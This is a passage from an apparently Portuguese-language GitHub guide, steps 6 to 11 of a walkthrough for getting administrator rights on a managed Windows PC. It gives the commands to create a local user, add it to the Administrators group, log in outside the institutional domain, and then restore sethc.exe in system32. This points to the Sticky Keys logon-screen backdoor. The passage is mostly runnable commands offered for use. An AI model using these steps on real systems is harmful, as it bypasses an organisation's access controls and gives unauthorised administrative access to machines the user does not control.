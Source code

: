 <br>

- Passo 6: Feito isso é possível adiciona-lo no grupo local dos Administradores:

```powershell
# Vê quais os grupos existentes
net localgroup

# Adiciona usuários ao grupo Administradores
net localgroup Administradores josesilva /add
```

<br>

- Passo 7: Sair do _prompt_ e ir para a tela inicial. Entro no meu usuário, que tem direitos de usuário apenas.

- Passo 8: Agora é possível usar o comando abaixo para adicionar o usuário ao PC local, como o perfil de administrador! Pedirá senha e usuário de administrador: use a que criou "josesilva" !!!!

```powershell
# Gerenciamento do Computador
compmgmt.msc
```

<br>

- Passo 9: Convém deletar usuário.

```powershell
# Deletando Usuário
net user josesilva /del
```

<br>

- Passo 10: Caso não tenha deltado o usuário, é possível sair do _prompt_ e ir para a tela inicial. Uma vez adicionado os usuários, já é possível logar fora do domínio institucional.

```powershell
# Acessar Usuário Local
.\josesilva
```

<br>

- Passo 11:

```powershell
# Encontra a pasta
cd D:
cd windows/system32

# Copiando...
copy sethc_old.exe sethc.exe

# Sair
exit
```
